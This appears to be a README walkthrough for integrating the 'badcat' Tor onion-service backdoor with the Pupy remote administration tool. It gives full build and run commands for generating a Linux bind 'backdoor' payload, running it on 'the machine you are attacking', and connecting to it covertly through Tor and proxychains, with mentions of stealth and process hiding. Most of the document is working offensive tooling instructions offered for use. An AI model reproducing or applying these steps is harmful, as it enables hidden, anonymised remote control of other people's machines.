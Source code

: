 # Pupy

Badcat is a reasonably good tool, but one generally needs to perform many actions through a backdoor, then using badcat as-is will eventually get you into issues. For instance, one needs to perform an upload or download of files, badcat can't help you with that.

I decided to integrate badcat functionality with some existing RAT (Remote Administration Tool).

I chose pupy, among other reasons, because I failed to make it work with others (Poshc2) and because it seemed to fit better than the alternatives, like good coding design, modularity, awesome hidding techniques - something badcat lacks.

# Common Concerns

_What works for now?_
R: Linux only. Every RPC related stuff from Pupy works out of the box. Pupy process hidding is broken for now, so when you run the program it keeps in the foreground - this details matters when you want to be stealth, but for now just ignore it.

_Will it work on my machine?_
R: Probably not, unless you have docker or podman. For a bunch of reasons I will ignore here, it just works in a specific environment. Thus the POC status. So if one wants to run it, the environment must be prepared.

_I don't care about how everything works, can't I just test it out?_
R: Of course you can. Follow this [steps](). Although I always recommend to take a look to understand what is going on under the hood.

_Will badcat work with any other RAT?_
R: Probably, yes. By now it would require advanced skills and lots of time for debugging, as it was to integrate with Pupy. To measure, it took me around a month for a proof of concept.

_Now, will badcat support any other RAT?_
R: Probably, not. I'll try my best to fully support at least one RAT of my choice, for now Pupy. If one wants support for other RATs, one should either ask support from RAT's developers or try to write the integration code by your own. The whole community would thank you for that.

_I hate your integration design choices, can I help you?_
R: Why haven't you told me before? Of course you can. Fill up an Issue or send a Pull Request. I'm terrible at coding and do not know how it worked, it just works.

# Integration

## Steps

### 1. Clone Pupy

The official Pupy project can not run badcat without modification in the Linux client source code. So I fork the official project and make the necessary changes. My fork is [here](https://github.com/yanmarques/pupy), I recommend you to check the latest commits to see what are such modifications.

That being said, clone the project recursively (as stated [here](https://github.com/n1nj4sec/pupy/wiki/Installation#pupy-setup)).

```bash
git clone --recursive https://github.com/yanmarques/pupy.git
```

### 2. Build The Container Image

Unfortunately, again, the official Pupy container image has a different `libc` version than the machine I used to build badcat integration code. Either I build badcat integration code in another machine or container, or re-create Pupy official container with the required `libc` version. I chose the later because I would have more control over the environment.

Then, build the image from my Dockerfile:

```bash
cd ./pupy/
docker build -t pupy-local -f ./client/Dockerfile . 
```

### 3. Install Pupy Python 2.7 Deps

Pupy relies on Python 2.7 yet, so one must have such package installed. In order to install dependencies, ensure Pip is installed for your Python 2.7. One can install Pip with:

```bash
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
```

Then install `swig`, required to build some Python dependency:

```bash
dnf install -y swig
```

Finally install Python dependencies:

```bash
cd ./pupy/pupy
python2 -m pip install -r requirements.txt
```

### 4. Build Badcat's Pupy Integration

First, follow badcat toolchain installation [here](https://github.com/yanmarques/badcat/tree/dev#getting-started) if you have not installed before. Then make sure you are at the `dev` branch and fully updated:

```bash
git checkout dev
git pull
```

Before building the integration code, think about your objectives. By default (at [this](https://github.com/yanmarques/badcat/blob/a5d245054f03b27a31096a08665b6d0a87f34d65/test-pupy/src/lib.rs#L98) line of code), badcat integration will start Tor with Tor's default `DataDirectory` and the `HiddenServiceDir` set to `hidden-service` directory. Modify the parameters to fit your desires.

Then build it:

```bash
cargo build --release -p test-pupy
```

An Elf shared library will be generated `./target/release/libbadcat_pupy.so`, like the following:

```bash
$ file ./target/release/libbadcat_pupy.so 
./target/release/libbadcat_pupy.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=44e952dde4ea235d5683a8289ef4d39da0097e5c, with debug_info, not stripped
```

This Elf shared library file is extremely important, it holds Tor and badcat code. Such file must be copied to two places:
    1. The directory where Pupy will be built. As you may already know, Pupy first build the executable (elf, exe, apk, etc) with a dummy string to be replaced with actual Python code later. This such build will our next step.
    2. Where you will run the resulting executable. As you may already know, the executable needs the shared library to run, remember this is a POC, ideally it should not need to carry the shared library to everywhere you need to run.

Sooo, copy `libbadcat_pupy.so` shared library to `pupy/client/sources-linux`.

### 5. Build Pupy Linux Executable

In order to generate the required executables, change your current working directory to the top level directory of Pupy project (`pupy`). Then run (if you use docker, just replace `podman` with `docker`):

```bash
podman run --mount type=bind,src=$(pwd),target=/build/workspace/project pupy-local ./client/sources-linux/build-docker.sh
```

It take some time to finish, but as soon as it has finished, one should see a `[+] Build complete` message.

### 6. Build the Pupy Payload

In order to generate the resulting executable with the payload, change your current working directory to the pupy source (`pupy/pupy`). Then you must fix the payload template name because it misses a `x64`. To fix it, just run:

```bash
cp ./payload_templates/pupy.lin ./payload_templates/pupyx64.lin
```

Now, enter Pupy shell:

```bash
python2 pupysh.py
```

You should see something like this:

![Pupy shell screenshot](https://user-images.githubusercontent.com/28604565/148851208-0213fd43-550d-44c9-86ba-f54d3ed174c4.png)

Finally, build the payload:

```bash
>> gen -O linux -A x64 -o backdoor bind --port 8000 -t badcat
```

The resulting executable is at `./pupy/pupy/backdoor`. To fully test Pupy with badcat functionality, you need this `backdoor` executable, the integration shared library and Pupy shell of course.

### 7. Start a Pupy Session with badcat

First things first, prepare the machine you are attacking. This machine must have some weird libraries installed, with boring versions. So the best way I found was to use the container image, that created early under the name of `pupy-local`, derived from a Dockerfile I wrote myself.

I started a container with an interactive shell and a mount for accessing the executable (`backdoor`) and the integration shared library (`libbadcat_pupy.so`) using the following command:

```bash
podman run --mount type=bind,src=$(pwd),target=/project -it pupy-local bash
```

Inside the container access the directory with both files. Then run the executable providing the directory where the shared library is located, so it is find in runtime. In my case, the shared library was in the same directory, so a dot (`.`) is used there.

```bash
LD_LIBRARY_PATH=. ./backdoor
```

Once the server is up and running, you need to connect through Tor using Pupy. In order to discover the generate Onion Service hostname, check on your current working directory the contents of the file at `hidden-service/hostname`. For instance, my server was:

```bash
$ cat ./hidden-service/hostname
ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion
```

The next step is to connect to server using Pupy. First exit the Pupy shell if you are already in. Then install `tor` and `proxychains` if do not have them already. The idea is to have Tor client running and use `proxychains` to force all Pupy shell connections to travel Tor proxy. If you are not certain of how to configure Tor and `proxychains`, check [this](https://itigic.com/use-proxychains-and-tor-on-linux-to-be-anonymous/) article.

Once Tor is running and `proxychains` is configure to use Tor Socks proxy, start Pupy shell and connect to your Onion Service:

```bash
proxychains python2 pupysh.py
>> connect -c ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion:8000 -t tcp_cleartext
```

Now be patient! 

Generally it take around a minute to start a full session, it depends on your connection, Tor's network latency at the moment and so on. For me it has already took more than five minutes to start a full session. So again, be patient.

Once the full session has started, one may see the following:

IMAGE
